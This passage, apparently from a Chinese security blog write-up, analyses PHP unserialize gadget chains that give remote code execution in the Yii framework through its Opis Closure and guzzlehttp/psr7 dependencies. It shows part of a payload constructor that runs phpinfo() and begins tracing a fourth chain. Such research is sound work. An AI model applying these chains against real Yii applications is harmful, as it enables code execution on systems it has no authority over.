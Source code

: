 ```
        public function __construct()
        {
            include("closure\autoload.php");
            $a = function () {
                phpinfo();
            };
            $a = \Opis\Closure\serialize($a);
            $b = unserialize($a);
            $this->value = $b;
        }
    }
}

```

这个脚本要放在vendor/opis目录下才能跑出来,不然没法包含closure\autoload.php

其实这条链子不是yii本身的问题,而且yii框架依赖的问题导致的rce

![image-20211010151715140](images/13.png)

# 第四条链子

## 漏洞分析

入口点还是不变,call方法可以利用之前找到的能直接返回一个可控值的那一个

然后可以将目标转到toString身上

```
vendor/guzzlehttp/psr7/src/AppendStream.php
```

![image-20211010152116472](images/14.png)

跟进rewind

![image-20211010152210733](images/15.png)

跟进seek

![image-20211010152225273](images/16.png)

$this->streams的值是可控的,那就可以去调用其他类的rewind方法

```
vendor/guzzlehttp/psr7/src/CachingStream.php
```

![image-20211010152754867](images/17.png)

一路跟进

在seek中又调用了read
